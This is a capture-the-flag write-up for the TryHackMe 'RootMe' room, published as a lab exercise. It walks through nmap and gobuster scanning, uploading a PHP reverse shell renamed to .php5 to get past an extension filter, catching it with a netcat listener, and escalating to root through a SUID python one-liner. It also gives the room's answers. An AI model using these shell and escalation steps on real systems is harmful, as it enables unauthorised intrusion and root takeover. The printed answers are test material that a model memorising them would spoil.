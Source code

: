# THM RootMe Walkthrough By Tirexv2
![RoomLogo](https://miro.medium.com/max/700/0*4vGBRHcDbSK82n4P.png)

This [Room](https://tryhackme.com/room/rrootme) will help you to practice the usage of `Gobuster` , `Nmap` as tools and `Privilege escalation` , `WebShell` 

## Task 1 Deploy the machine

1- Start Machine

2- Start AttackBox (if you want to use Web GUI) else use OpenVpn

## Task 2 Reconnaissance

1 - We will scan the machine using Nmap 
`nmap -sC -sV Machine IP`

`-sC` refers to Scan using Defaults scripts

`-sV` refers to pull infos of open ports 

![nmap](https://user-images.githubusercontent.com/31727214/212396877-437558c2-1a5f-424f-b2c6-9ca774fbb6bd.PNG)


after this scan you will be able to answer first 3 questions 

```
Scan the machine, how many ports are open? : 2 Ports : 80 & 22

What version of Apache is running? : 2.4.29

What service is running on port 22? : SSH
```

2 - as he said we will use `GoBuster` to discover directories on the web server :

`gobuster dir -u http://10.10.1.130 -w /usr/share/wordlists/dirb/common.txt`

`dir` refers to directory or file for enumeration mode

`-u` refers to URL parameter

`-w` refers path to the wordlist

![image](https://user-images.githubusercontent.com/31727214/212395961-b00f9c07-399d-4af3-a681-12a6830dc910.png)

Now we will be able to answer last Question in this Task 

```
What is the hidden directory? : /panel/
```

## Task 3 Getting a shell

1 - Lets try to browse into the hiden page `http://ip/panel/`

looks like we found something interesting we can upload files so lets try to upload web shell and get a reverse shell to execute commands on the web server

for this step we can use metasploit to generate php reverse shell or we can just take a shell and make some edits so for me i will use [Php reverse shell](php-reverse-shell) from pentestmonkey

but we need to do some edits in the script before uploading on the webserver

![image](https://user-images.githubusercontent.com/31727214/212399261-caeaf4cb-5bd3-4931-ae85-3fd08dcdbd01.png)

```
$ip : Attacker Machine IP
```

but we face an error here because we upoload shell.php file with php extension
![image](https://user-images.githubusercontent.com/31727214/212399901-c3a497df-fbef-4612-9581-91163de18ac3.png)

so let's try to escape this filtre by replacing php with php5 so the new structre of file extension will be like this `shell.php5` instead of `shell.php`

![image](https://user-images.githubusercontent.com/31727214/212400487-4bad41e1-d506-4347-ae15-a867ddc4a216.png)

Now we will execute our shell and start a netcat listener from Attacker Machine 

To start netcat :
`sudo nc -nlvp 9999`

To execute our shell we will use `Curl` command 
`curl hhtp://ip/uploads/shell.php5`

![image](https://user-images.githubusercontent.com/31727214/212401848-6275af69-9ddb-45d0-a634-b790542f7ae7.png)

Our shell executed succefully now we can capture the flag 

As he said we need to search for `user.txt` file so we will use `find` command to execute this search

Command : `find / -type f -name user.txt 2> /dev/null`

We found the Path for `user.txt` so we will use `cat` to print the content of a file

Command : `cat /var/www/user.txt`

![image](https://user-images.githubusercontent.com/31727214/212402497-bcd8d010-6a4e-4e75-bdd7-fa72889ec7ae.png)

## Task 4 Privilege escalation 

as he ask we need to search for files with [SUID](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) permission to Esclate our privilege we will use `find` again 

Command : `find  / type f -user root -perm -u=s 2>/dev/null` 

we found python with SUID permissions so the first answer is : `/usr/bin/python`

![image](https://user-images.githubusercontent.com/31727214/212406201-dfedd763-6aa7-49d6-8553-0216051f69be.png)

we can execute python script directly to Escalate privilege to root user

Python Script : `python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`

let's use `whoami` to test if we obtain root user 

then we will use `find / -type f -name root.txt` to find `root.txt` file 

Finally we will use `cat` to get our Flag `cat /root/root.txt`

![image](https://user-images.githubusercontent.com/31727214/212409198-55f2c438-f8d6-407a-9151-bf15f6b8b777.png)

Will all this steps we finish this room succefully 

![image](https://user-images.githubusercontent.com/31727214/212409814-ca4ba798-7d80-4ce7-8c1a-a514f73d7825.png)



